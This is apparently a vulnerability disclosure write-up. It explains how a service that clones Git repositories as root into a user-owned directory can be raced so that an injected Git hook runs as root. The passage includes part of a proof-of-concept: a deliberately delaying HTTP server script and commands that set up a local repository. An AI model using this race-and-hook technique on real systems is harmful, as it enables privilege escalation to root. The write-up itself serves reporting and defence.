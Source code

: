 The simple-git package internally delegates to the `git` executable, which as the code comment notes, would run as root.

# Vulnerability 1: injecting a Git hook

This is the more interesting one, in my opinion.

Git clones by creating the `.git` directory, transferring the refs and objects from the remote, and checking out the default branch.
When it checks out a branch, such as at the end of the clone process, it may execute custom scripts called "hooks" if they've been set up.
Cloning would normally not execute any hooks, because the local repository has just been created, so no hooks would be set up (they're not transferred from the remote).

But because this service clones into a directory `/app` that is owned by the user, we can tamper with the `.git` directory to set up hooks while it's still transferring stuff from the remote.
Then, when it gets to checking out the default branch, it'll execute our hook as root.

Here's a proof of concept script I sent with my report, interspersed with new commentary.

## Sample exploitation

Racing against Git seems like it wouldn't be too hard, because cloning would have Git receive data over the internet.
In this script, we actually clone from another local repository to minimize the external dependencies.
But to give ourselves an advantage, I wrote this special server that intentionally adds huge delays.

```sh
cd /tmp
cat >delay.js <<'EOF'
require('http').createServer((req, res) => {
  console.log(`${req.method} ${req.url}`);
  const path = `.${req.url.split('?')[0]}`;
  // delay hehehe
  setTimeout(() => {
    require('fs').createReadStream(path).pipe(res);
  }, 1000);
}).listen(process.env.PORT, () => {
  console.log('listening');
});
EOF
```

And now we'll create a little repository for us to import.

```sh
mkdir s
cd s
git init
git config user.name w
git config user.email none
echo ok >f
git add f
git commit -m "A"
git show
```
